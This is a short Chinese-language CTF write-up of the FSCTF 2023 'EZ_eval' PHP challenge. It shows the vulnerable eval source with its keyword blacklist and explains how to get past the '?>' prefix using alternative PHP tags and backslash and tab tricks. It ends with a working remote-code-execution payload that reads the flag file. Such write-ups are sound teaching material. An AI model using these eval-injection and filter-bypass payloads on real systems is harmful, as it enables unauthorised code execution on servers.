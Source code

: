 # 【FSCTF 2023】EZ_eval


# [FSCTF 2023]EZ_eval

## 思路
* 源码

  ```
  &lt;?php
      if(isset($_GET[&#39;word&#39;])){
      $word = $_GET[&#39;word&#39;];
      if (preg_match(&#34;/cat|tac|tail|more|head|nl|flag|less| /&#34;, $word)){
         die(&#34;nonono.&#34;);
      }
      $word = str_replace(&#34;?&#34;, &#34;&#34;, $word);
      eval(&#34;?&gt;&#34;. $word);
  }else{
      highlight_file(__FILE__);
  }
  ```
  
  这里有三个问题
  
  * `?`过滤
  * `eval`命令前加了php结束符，无法执行我们输入的指令
  * 关键字过滤
  
  相对需要着急解决的是的 2，因为不解决啥也干不了。
  
* 对 2 解决方法

  * `&lt;? echo &#39;123&#39;;?&gt;`

    但前提是前提是开启配置参数short_open_tags=on

  * `&lt;script language=&#34;php&#34;&gt;echo &#39;hello&#39;;`

    不需要修改参数开关，但是只能在7.0以下可用

  * `&lt;% echo &#39;123&#39;;%&gt;`

    开启配置参数`asp_tags=on`，并且只能在7.0以下版本使用

* 对 1 解决方法：2 的第二个解决方法就顺带解决了

* 对 3 解决方法

  反斜杠绕过



## Payload

```
?word=&lt;script%09language=&#34;php&#34;&gt;system(&#34;c\at%09/fl\ag&#34;);
```

## 总结

* RCE
* eval执行时用了php的结束标志?&gt;绕过
* WAF绕过

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-fsctf-2023ez_eval/  

